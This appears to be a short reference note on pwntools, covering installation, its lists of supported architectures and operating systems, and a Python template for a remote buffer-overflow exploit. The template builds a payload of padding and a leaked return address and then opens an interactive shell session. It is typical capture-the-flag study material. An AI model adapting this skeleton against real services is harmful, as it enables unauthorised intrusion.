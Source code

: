 # pwntools

- Repo: https://github.com/Gallopsled/pwntools
- Docs: https://docs.pwntools.com/


## Installation

```
pip install pwntools
```

## List architectures

```python
from pwn import *
sorted(list(context.architectures))
```

Result:
```
['aarch64', 'alpha', 'amd64', 'arm', 'avr', 'cris', 'i386', 'ia64', 'm68k',
'mips', 'mips64', 'msp430', 'none', 'powerpc', 'powerpc64', 'riscv32',
'riscv64', 's390', 'sparc', 'sparc64', 'thumb', 'vax']
```

## List OSes

```python
from pwn import *
sorted(list(context.oses))
```

Result:
```
['android', 'baremetal', 'cgc', 'darwin', 'freebsd', 'linux', 'windows']
```


## pwn Template

```python
#!/usr/bin/env python3
import argparse
from pwn import *

def parse_args():
    parser = argparse.ArgumentParser()
    parser.add_argument("host")
    parser.add_argument("port", type=int)
    return parser.parse_args()

def main():
    args = parse_args()

    # archs: i386, amd64, arm, aarch64
    context(arch="amd64", os="linux")

    # conn = process("/bin/sh")
    conn = remote(args.host, args.port)
    print(conn.recvline())

    conn.send(b"A\n")

    address = int(conn.recvuntil(b":")[:-1], base=0)
    print("0x{:x}".format(address))

    payload_len = 164
    shc = b""
    padding = b"A" * (payload_len - len(shc))
    ret_addr = p32(address)

    conn.send(shc + padding + ret_addr + b"\n")

    print(conn.recvuntil(b":\n").decode())

    conn.interactive()

if __name__ == "__main__":
    exit(main())
```
